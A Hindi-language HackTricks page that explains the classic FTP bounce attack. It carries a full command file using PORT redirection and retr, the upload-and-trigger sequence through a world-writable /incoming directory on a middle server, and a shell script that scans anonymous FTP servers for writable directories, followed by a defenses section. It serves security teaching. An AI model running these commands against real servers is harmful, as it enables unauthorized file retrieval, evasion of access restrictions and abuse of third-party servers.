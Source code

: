 <details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह में शामिल हों**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>


# सारांश

यदि आपके पास बाउंस FTP सर्वर तक पहुंच है, तो आप इसे अन्य FTP सर्वर से फाइलें मांगने के लिए बना सकते हैं \(जहां आपको कुछ प्रमाण-पत्र पता हों\) और उस फाइल को अपने सर्वर पर डाउनलोड कर सकते हैं।

## आवश्यकताएँ

FTP मिडल सर्वर में मान्य प्रमाण-पत्र
विक्टिम FTP सर्वर में मान्य प्रमाण-पत्र
दोनों सर्वर PORT कमांड स्वीकार करते हैं \(बाउंस FTP हमला\)
आप FRP मिडल सर्वर की किसी डायरेक्टरी में लिख सकते हैं
किसी कारण से मिडल सर्वर के पास विक्टिम FTP सर्वर के अंदर आपसे अधिक पहुंच होगी \(यही आप शोषण करने जा रहे हैं\)

## चरण

1. अपने स्वयं के FTP सर्वर से कनेक्ट करें और कनेक्शन को पैसिव बनाएं \(pasv कमांड\) ताकि यह उस डायरेक्टरी में सुन सके जहां विक्टिम सेवा फाइल भेजेगी
2. वह फाइल बनाएं जो FTP मिडल सर्वर विक्टिम सर्वर को भेजने वाला है \(शोषण\). यह फाइल उन आवश्यक कमांडों का प्लेन टेक्स्ट होगा जो विक्टिम सर्वर के खिलाफ प्रमाणीकरण करने, डायरेक्टरी बदलने और अपने सर्वर पर फाइल डाउनलोड करने के लिए आवश्यक हैं।
3. FTP मिडल सर्वर से कनेक्ट करें और पिछली फाइल अपलोड करें
4. FTP मिडल सर्वर को विक्टिम सर्वर के साथ कनेक्शन स्थापित करने और शोषण फाइल भेजने के लिए बनाएं
5. अपने स्वयं के FTP सर्वर में फाइल कैप्चर करें
6. FTP मिडल सर्वर से शोषण फाइल हटाएं



इस पोस्ट में दी गई सभी जानकारी यहां से निकाली गई थी: [http://www.ouah.org/ftpbounce.html](http://www.ouah.org/ftpbounce.html)

# FTP Bounce हमला

यह "FTP सर्वर बाउंस हमले" के कई संभावित उपयोगों में से एक पर चर्चा करता है। इस्तेमाल की गई तंत्र शायद अच्छी तरह से जानी जाती है, लेकिन अब तक इसे विस्तारित करने या ठीक करने में रुचि कम से कम या गैर-मौजूद प्रतीत होती है। यह विशेष उदाहरण एक और तरीका दिखाता है जिसमें अधिकांश इलेक्ट्रॉनिक रूप से लागू "निर्यात प्रतिबंध" पूरी तरह से बेकार हैं और दरकिनार करने के लिए तुच्छ हैं। यह उदाहरण इस प्रयास में चुना गया है कि पाठक को जगाने और ध्यान दिलाने के लिए कि मानक FTP प्रोटोकॉल के कुछ वास्तव में खराब सोचे गए पहलू हैं।

imag.fr में Alain Knaff का भी धन्यवाद कुछ महीने पहले इन मुद्दों की कुछ रोचक लेकिन मनोरंजक चर्चा के लिए जिसने मुझे इनके बारे में और गहराई से सोचने के लिए प्रेरित किया।

## प्रेरणा

आप foreign.fr पर एक उपयोगकर्ता हैं, IP पता F.F.F.F, और आप US में crypto.com से क्रिप्टोग्राफिक सोर्स कोड प्राप्त करना चाहते हैं। crypto.com पर FTP सर्वर आपके कनेक्शन की अनुमति देने के लिए सेटअप है, लेकिन आपके सोर्स IP पते के कारण क्रिप्टो सोर्सेज तक पहुंच से इनकार करता है क्योंकि आपका सोर्स IP पता गैर-US साइट का है \[जैसा कि उनके FTP सर्वर DNS से निर्धारित कर सकते हैं, वह है\]। किसी भी मामले में, आप सीधे crypto.com के सर्वर से वह चाहते हैं प्राप्त नहीं कर सकते।

हालांकि, crypto.com ufred.edu को क्रिप्टो सोर्सेज डाउनलोड करने की अनुमति देगा क्योंकि ufred.edu भी US में है। आपको पता चलता है कि ufred.edu पर /incoming एक विश्व-लिखने योग्य डायरेक्टरी है जिसमें कोई भी अनाम उपयोगकर्ता फाइलों को डाल सकता है और उन्हें वापस पढ़ सकता है। Crypto.com का IP पता C.C.C.C है।

## हमला

यह मानता है कि आपके पास पैसिव मोड करने वाला FTP सर्वर है। अपनी मशीन के वास्तविक IP पते पर एक FTP कनेक्शन खोलें \[localhost नहीं\] और लॉग इन करें। एक सुविधाजनक डायरेक्टरी में बदलें जिसमें आपको लिखने की पहुंच हो, और फिर करें:
```text
pasv
stor foobar
```
ध्यान दें कि PASV कमांड से जो पता और पोर्ट वापस आते हैं, F,F,F,F,X,X, इस FTP सत्र को अब रुकना पड़ेगा, इसलिए इसे पृष्ठभूमि में डालें या किसी अन्य विंडो में जाकर आगे की प्रक्रिया के साथ जारी रखें।

FTP सर्वर कमांड्स वाली एक फाइल बनाएं। इस फाइल को हम "`instrs`" कहेंगे। यह इस तरह दिखेगी:
```text
user ftp
pass -anonymous@
cwd /export-restricted-crypto
type i
port F,F,F,F,X,X
retr crypto.tar.Z
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
...
```
```
F,F,F,F,X,X वही पता और पोर्ट है जो आपकी अपनी मशीन ने पहले कनेक्शन पर आपको दिया था। अंत में जो कचरा है वह अतिरिक्त पंक्तियाँ हैं जिन्हें आप बनाते हैं, प्रत्येक में 250 NULLS और कुछ भी नहीं, लगभग 60K अतिरिक्त डेटा भरने के लिए पर्याप्त है। इस भराव का कारण बाद में समझाया गया है।

ufred.edu पर एक FTP कनेक्शन खोलें, गुमनाम रूप से लॉग इन करें, और /incoming में cd करें। अब इस FTP सत्र में निम्नलिखित टाइप करें, जो आपकी "`instrs`" फाइल की एक प्रति को स्थानांतरित करता है और फिर ufred.edu के FTP सर्वर को आपकी फाइल का उपयोग करते हुए crypto.com के FTP सर्वर से कनेक्ट करने के लिए कहता है:
```
```text
put instrs
port C,C,C,C,0,21
retr instrs
```
`Crypto.tar.Z` अब आपकी मशीन पर पहले FTP कनेक्शन के माध्यम से "`foobar`" के रूप में दिखाई देना चाहिए। यदि ufred.edu से कनेक्शन अपने आप नहीं मरा क्योंकि एक सामान्य सर्वर बग के कारण, "`instrs`" को हटाकर और बाहर निकलकर सफाई करें। अन्यथा आपको समाप्त करने के लिए पुनः कनेक्ट करना होगा।

##  चर्चा

इसके कई रूप हैं। आपका PASV श्रोता कनेक्शन किसी भी मशीन पर खोला जा सकता है जिस पर आपको फाइल लिखने का अधिकार है -- आपका अपना, ufred.edu से एक और कनेक्शन, या कहीं पूरी तरह से असंबंधित। वास्तव में, यह एक FTP सर्वर होना भी जरूरी नहीं है -- कोई भी उपकरण जो एक ज्ञात TCP पोर्ट पर सुनेगा और कच्चे डेटा को उसमें से एक फाइल में पढ़ेगा, वह काम करेगा। एक निष्क्रिय-मोड FTP डेटा कनेक्शन बस इसे करने का एक सुविधाजनक तरीका है।

कमांड फाइल के अंत में अतिरिक्त शून्य उफ्रेड -&gt; क्रिप्टो कनेक्शन के दोनों सिरों पर TCP विंडोज़ को भरने के लिए हैं, और यह सुनिश्चित करने के लिए कि कमांड कनेक्शन पूरे सत्र के निष्पादित होने के लिए पर्याप्त समय तक खुला रहता है। अन्यथा, अधिकांश FTP सर्वर नियंत्रण कनेक्शन के असमय बंद होने पर सभी स्थानांतरणों और कमांड प्रोसेसिंग को समाप्त कर देते हैं। डेटा का आकार प्राप्त और प्रेषित विंडोज़ दोनों को भरने के लिए पर्याप्त है, जो कुछ OSes पर काफी बड़े होते हैं \[लगभग 30K के क्रम में\]। यदि आप जानते हैं कि दोनों सिरों पर कौन से OSes हैं और उनके डिफ़ॉल्ट TCP विंडो आकारों का योग, तो आप इसे कम कर सकते हैं। यह लक्ष्य सर्वर पर कमांड बफरों को ओवररन करने से बचने के लिए 250 अक्षरों की पंक्तियों में विभाजित है -- शायद शैक्षणिक क्योंकि आपने सर्वर को पहले ही छोड़ने के लिए कहा था।

यदि crypto.com आपको foreign.fr से \*किसी भी\* FTP क्लाइंट कनेक्शन की अनुमति नहीं देता है और आपको देखना है कि कौन सी फाइलें कहाँ हैं, तो आप हमेशा अपनी कमांड फाइल में "`list -aR`" डाल सकते हैं और ufred के माध्यम से पूरे ट्री की एक निर्देशिका सूची प्राप्त कर सकते हैं।

आपको अपनी कमांड फाइल को लक्ष्य के FTP सर्वर पर बाइनरी मोड के बजाय ASCII मोड में पुनः प्राप्त करना पड़ सकता है। कुछ FTP सर्वर कच्चे न्यूलाइन्स के साथ सामना कर सकते हैं, लेकिन अन्यों को CRLF जोड़ों द्वारा समाप्त कमांड लाइनों की आवश्यकता हो सकती है। जब आप FTP सर्वरों के अलावा अन्य डेमॉन्स को फाइलें पुनः प्राप्त करते हैं, तो इसे ध्यान में रखें।

##  अन्य संभावनाएँ

इस तथ्य के बावजूद कि ऐसे तृतीय-पक्ष कनेक्शन केवल एक-तरफा होते हैं, उनका उपयोग सभी प्रकार की चीजों के लिए किया जा सकता है। इसी तरह की विधियों का उपयोग लगभग अनट्रेसेबल मेल और न्यूज़ पोस्ट करने, विभिन्न साइटों पर सर्वरों पर हथौड़ा मारने, डिस्क को भरने, फ़ायरवॉल को कूदने की कोशिश करने, और एक ही समय में कष्टप्रद और कठिन पता लगाने के लिए किया जा सकता है। थोड़ा विचार करने से कई अन्य डरावनी संभावनाओं का एहसास होगा।

इस तरह से शुरू किए गए कनेक्शन स्रोत पोर्ट 20 से आते हैं, जिन्हें कुछ साइटें अपने फ़ायरवॉल में "ftp-data" समस्या से निपटने के प्रयास में अनुमति देती हैं। कुछ उद्देश्यों के लिए, यह स्रोत-मार्गित हमलों के बाद अगली सबसे अच्छी बात हो सकती है, और पैकेट फिल्टरों के खिलाफ स्रोत मार्गित हमलों के विफल होने पर सफल होने की संभावना है। और यह सब FTP प्रोटोकॉल स्पेक के लिखे जाने के तरीके से संभव बनाया गया है, जिससे नियंत्रण कनेक्शन कहीं से भी आ सकते हैं और डेटा कनेक्शन कहीं भी जा सकते हैं।

##  बचाव

नेट पर हमेशा ऐसी साइटें होंगी जिनके पास पुराने FTP सर्वर और लिखने योग्य निर्देशिकाएँ होंगी जो इस तरह के ट्रैफिक की अनुमति देती हैं, इसलिए कहना "सभी FTP सर्वरों को ठीक करो" गलत उत्तर है। लेकिन आप अपने खुद के खिलाफ तृतीय-पक्ष बाउंसपॉइंट होने और आपके खिलाफ एक और का उपयोग किए जाने से बचा सकते हैं।

पहली स्पष्ट बात यह है कि एक FTP सर्वर को केवल उसी होस्ट के लिए डेटा कनेक्शन बनाने की अनुमति देनी चाहिए जहां से नियंत्रण कनेक्शन शुरू हुआ था। यह ऊपर दिए गए हमले को रोकता नहीं है, बेशक, क्योंकि PASV श्रोता उफ्रेड.edu पर भी आसानी से हो सकता है और इस प्रकार उस आवश्यकता को पूरा कर सकता है, लेकिन यह रोकता है कि \*आपकी\* साइट एक संभावित बाउंसपॉइंट बनने से। यह "प्रॉक्सी FTP" की अवधारणा को भी तोड़ता है, लेकिन इस पैराग्राफ में कहीं एक बहुत छोटी वायलिन छिपी हुई है।

अगली स्पष्ट बात यह है कि आरक्षित पोर्टों से आने वाले FTP नियंत्रण कनेक्शनों को मना करना, या कम से कम पोर्ट 20 से। यह ऊपर बताए गए परिदृश्य को रोकता है।

इन दोनों चीजों के अलावा, स्रोत-मार्गित पैकेटों और अन्य स्पूफरी के अवसरों को ब्लॉक करने के बारे में सामान्य बातें इस तरह के हैक्स को रोकने के लिए आवश्यक हैं। और सोचें कि क्या आपको वास्तव में एक खुली "इनकमिंग" निर्देशिका की आवश्यकता है।

केवल निष्क्रिय-मोड क्लाइंट डेटा कनेक्शनों की अनुमति देना एक और संभावना है, लेकिन अभी भी बहुत सारे FTP क्लाइंट हैं जो निष्क्रिय-जागरूक नहीं हैं।

##  "एक ढीली सहमति और चल रहा कोड"

इस पर कुछ मौजूदा काम यहाँ avian.org पर उपलब्ध है \[और कई महीनों से है, मैं जोड़ना चाहू
```text
#!/bin/sh
ftp -n $1 << FOE
quote "user ftp"
quote "pass -nobody@"
prompt
cd /
dir "-aR" xxx.$$
bye
FOE
# Not smart enough to figure out ftp's numeric UID if no passwd file!
cat -v xxx.$$ | awk '
BEGIN { idir = "/" ; dirp = 0 }
/.:$/ { idir = $0 ; dirp = 1 ; }
/^[-d][-r](......w.|........  *[0-9]* ftp  *)/ {
if (dirp == 1) print idir
dirp = 0
print $0
} '
rm xxx.$$
```
```markdown
इसे श्वेत पत्र कहा जा सकता है। यह avian.org पर [/random/ftp-attack](ftp://ftp.avian.org:/random/ftp-attack) में उपलब्ध है और विभिन्न प्रासंगिक स्थानों पर पोस्ट किया गया है। \_H\* 950712

<details>

<summary><strong> AWS हैकिंग सीखें शून्य से लेकर हीरो तक </strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग तरकीबें साझा करें।

</details>
```
